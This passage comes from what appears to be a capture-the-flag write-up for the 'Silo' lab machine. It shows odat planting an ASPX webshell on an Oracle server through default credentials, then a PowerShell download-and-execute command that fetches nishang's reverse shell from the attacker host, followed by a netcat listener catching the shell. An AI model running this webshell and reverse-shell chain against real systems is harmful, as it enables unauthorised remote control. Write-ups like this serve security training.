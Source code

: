     <div>

        root@kali# odat dbmsadvisor -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba --putFile C:\\inetpub\\wwwroot 0xdf.aspx /usr/share/webshells/aspx/cmdasp.aspx
          
        [1] (10.10.10.82:1521): Put the /usr/share/webshells/aspx/cmdasp.aspx local file in the C:\inetpub\wwwroot path (named 0xdf.aspx) of the 10.10.10.82 server
        [+] The /usr/share/webshells/aspx/cmdasp.aspx local file was put in the remote C:\inetpub\wwwroot path (named 0xdf.aspx)

    </div>

    </div>

    ![](/img/silo-webshell-whoami.png)

## User Shell

Now with a functioning webshell, let's get a real shell:

Grab a copy of nishang's poweshell reverse shell and add the line to
call it at the bottom of the file:



    root@kali# cp /opt/powershell/nishang/Shells/Invoke-PowerShellTcp.ps1 .
    root@kali# tail -1 Invoke-PowerShellTcp.ps1
    Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.48 -Port 8084



Use SimpleHTTPServer to offer it, and then issue the following to the
webshell:
`powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.15.48:8083/Invoke-PowerShellTcp.ps1')`

Get a shell:



    root@kali# nc -lnvp 8084
    listening on [any] 8084 ...
    connect to [10.10.15.48] from (UNKNOWN) [10.10.10.82] 49168
    Windows PowerShell running as user SILO$ on SILO
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.

    PS C:\windows\system32\inetsrv>



### user.txt

With shell, user.txt comes easy:



    PS C:\windows\system32\inetsrv> dir \users\Phineas\Desktop


        Directory: C:\users\Phineas\Desktop


